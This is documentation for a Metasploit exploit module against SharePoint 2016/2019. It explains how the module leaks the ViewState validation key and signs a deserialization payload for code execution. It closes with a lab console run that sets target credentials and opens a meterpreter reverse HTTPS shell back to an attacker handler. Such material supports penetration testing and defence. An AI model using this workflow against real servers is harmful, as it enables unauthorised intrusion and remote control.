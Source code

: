 ## Vulnerable Application

### Description

The `EditingPageParser.VerifyControlOnSafeList` method fails to properly validate user supplied data. This can be
leveraged by an attacker to leak sensitive information in rendered-preview content. This module will leak the ViewState
validation key and then use it to sign a crafted object that will trigger code execution when deserialized.

The check method is unauthenticated and will determine whether or not the target service is vulnerable via the version
number. The exploit however requires authentication in order to trigger the vulnerability. See the documentation for the
[HttpUsername](#httpusername) option below for details on the account.

Tested against SharePoint 2019 and SharePoint 2016, both on Windows Server 2016.

### Setup

Follow [Microsoft's
documentation](https://docs.microsoft.com/en-us/sharepoint/install/install-sharepoint-server-2016-on-one-server).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### Windows Command

This executes a Windows command.

### Windows Dropper

This uses a Windows dropper to execute code.

### PowerShell Stager

This uses a PowerShell stager to execute code.

## Options

### HttpUsername

Set this to the SharePoint username. This user must have the `SPBasePermissions.ManageLists` permission on the targeted
SharePoint site. By default, SharePoint users may create their own site where they will have this permissions however
this action **is not automatically performed** by this module.

### HttpPassword

Set this to the SharePoint password.

### VALIDATION_KEY

Set this to the ViewState validation key if you have it.

### COOKIE

Set this to a SharePoint cookie if you have one. This is primarily useful for form auth.

## Scenarios

### SharePoint 2019 on Windows Server 2016

```
msf6 exploit(windows/http/sharepoint_unsafe_control) > set RHOSTS 192.168.159.46
RHOSTS => 192.168.159.46
msf6 exploit(windows/http/sharepoint_unsafe_control) > set VHOST shrpnt2019
VHOST => shrpnt2019
msf6 exploit(windows/http/sharepoint_unsafe_control) > set HttpUsername aliddle
HttpUsername => aliddle
msf6 exploit(windows/http/sharepoint_unsafe_control) > set HttpPassword Password1
HttpPassword => Password1
msf6 exploit(windows/http/sharepoint_unsafe_control) > check
[*] 192.168.159.46:80 - The target appears to be vulnerable. SharePoint 16.0.0.10337 is a vulnerable build.
msf6 exploit(windows/http/sharepoint_unsafe_control) > exploit

[*] Started HTTPS reverse handler on https://192.168.159.128:8443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. SharePoint 16.0.0.10337 is a vulnerable build.
[*] Leaking the ViewState validation key...
[+] ViewState validation key: F894731BF335C2DAB04D70773B5F6BE55EE2C4052B671EE3C6785497A3D29A94
[*] Executing PowerShell Stager for windows/x64/meterpreter/reverse_https
[*] https://192.168.159.128:8443 handling request from 192.168.159.46; (UUID: a5re3jes) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.159.128:8443 -> 127.0.0.1) at 2021-06-08 15:08:59 -0400

meterpreter > getuid
Server username: SHRPNT\SharePoint
meterpreter > sysinfo
Computer        : SHRPNT2019
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : SHRPNT
Logged On Users : 11
Meterpreter     : x64/windows
meterpreter > 
```
